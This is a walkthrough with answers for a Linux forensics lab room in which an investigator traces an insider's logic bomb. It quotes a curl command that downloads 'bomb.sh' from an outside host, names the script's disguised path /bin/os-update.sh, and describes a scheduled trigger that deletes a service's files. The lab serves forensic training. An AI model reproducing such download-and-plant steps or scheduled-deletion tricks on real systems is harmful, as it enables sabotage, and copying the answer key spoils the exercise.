










# Introduction

Hey, kid! Good, you’re here!

Not sure if you’ve seen the news, but an employee from the IT department of one of our clients (CyberT) got arrested by the police. The guy was running a successful phishing operation as a side gig.

CyberT wants us to check if this person has done anything malicious to any of their assets. Get set up, grab a cup of coffee, and meet me in the conference room.

## Connecting to the machine

Start the virtual machine in split-screen view by clicking on the green "Start Machine" button on the upper right section of this task. Alternatively, you can connect to the VM using the credentials below via "ssh".

THM key

Username 	root

Password 	password

IP 	MACHINE_IP

# Linux Forensics review

Pre-requisites

This room requires basic knowledge of Linux and is based on the Linux Forensics room. A cheat sheet is attached below, which you can also download by clicking on the blue Download Task Files button on the right.

[linux cheat sheet](LinuxForensicsCheatsheet-1651286283085.pdf)

# Nothing suspicious... So far

Here’s the machine our disgruntled IT user last worked on. Check if there’s anything our client needs to be worried about.

My advice: Look at the privileged commands that were run. That should get you started.

## Q & A

Q1 The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?

Hint Check sudo execution history

A1 usr/bin/apt install dokuwiki 

Q2 What was the present working directory (PWD) when the previous command was run?

A2 /home/cybert

# Let’s see if you did anything bad

Keep going. Our disgruntled IT was supposed to only install a service on this computer, so look for commands that are unrelated to that.

## Q & A

Q1 Which user was created after the package from the previous task was installed?

A1 it-admin

Q2 A user was then later given sudo priveleges. When was the sudoers file updated? (Format: Month Day HH:MM:SS)

A2 Dec 28 06:27:34

Q3 A script file was opened using the "vi" text editor. What is the name of this file?

A3 bomb.sh

Looking through the output of the previous command we can answer all these questions

# Bomb has been planted. But when and where?

That `bomb.sh` file is a huge red flag! While a file is already incriminating in itself, we still need to find out where it came from and what it contains. The problem is that the file does not exist anymore.

## Q & A

Q1 What is the command used that created the file bomb.sh?

A1 curl 10.10.158.38:8080/bomb.sh --output bomb.sh

Q2 The file was renamed and moved to a different directory. What is the full path of this file now?

A2 /bin/os-update.sh

we know the file was opened with vim `sudo vi bomb.sh`, if we check vim history there's only one renamed (Saved as or `saveas`) file

Q3 When was the file from the previous question last modified? (Format: Month Day HH:MM)

A3 Dec 28 06:29

Q4 What is the name of the file that will get created when the file from the first question executes?

A4 goodbye.txt

# Following the fuse

So we have a file and a motive. The question we now have is: how will this file be executed?

Surely, he wants it to execute at some point?

## Q & A

Q1 At what time will the malicious file trigger? (Format: HH:MM AM/PM) 

A1 08:00 AM

# Conclusion

Thanks to you, we now have a good idea of what our disgruntled IT person was planning.

We know that he had downloaded a previously prepared script into the machine, which will delete all the files of the installed service if the user has not logged in to this machine in the last 30 days. It’s a textbook example of a  “logic bomb”, that’s for sure.

Look at you, second day on the job, and you’ve already solved 2 cases for me. Tell Sophie I told you to give you a raise.
Answer the questions below
I’m kidding, of course! But you did good, kid.